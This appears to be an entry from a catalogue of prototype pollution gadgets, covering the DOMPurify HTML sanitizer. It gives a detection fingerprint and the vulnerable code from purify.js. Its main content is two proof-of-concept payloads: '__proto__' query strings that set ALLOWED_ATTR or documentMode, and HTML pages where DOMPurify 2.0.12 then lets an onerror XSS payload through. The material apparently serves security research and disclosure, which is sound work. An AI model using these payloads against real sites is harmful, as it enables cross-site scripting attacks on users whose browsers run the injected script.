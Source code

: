 ## DOMPurify

URL: https://github.com/cure53/DOMPurify/

### JS Fingerprint
```
return (typeof DOMPurify !== 'undefined')
```

### Vulnerable code fragment
https://github.com/cure53/DOMPurify/blob/3c610449ecf34da4acb6947c8e08ab1fcb3baea8/dist/purify.js
```js
DOMPurify.isSupported = implementation && typeof implementation.createHTMLDocument !== 'undefined' && document.documentMode !== 9;
...
ALLOWED_TAGS = 'ALLOWED_TAGS' in cfg ? addToSet({}, cfg.ALLOWED_TAGS) : DEFAULT_ALLOWED_TAGS;
```

### PoC

#### ALLOWED_ATTR

```
?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.12/purify.min.js"></script>
<script>
  Object.prototype.ALLOWED_ATTR = ['onerror', 'src']
</script>
<script>
  document.write(DOMPurify.sanitize('<img src onerror=alert(1)>'))
</script>
```

#### documentMode

```
?__proto__[documentMode]=9
```

```html
<script>
  Object.prototype.documentMode = 9
</script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.12/purify.min.js"></script>
<script>
  document.write(DOMPurify.sanitize('<img src onerror=alert(1)>'))
</script>
```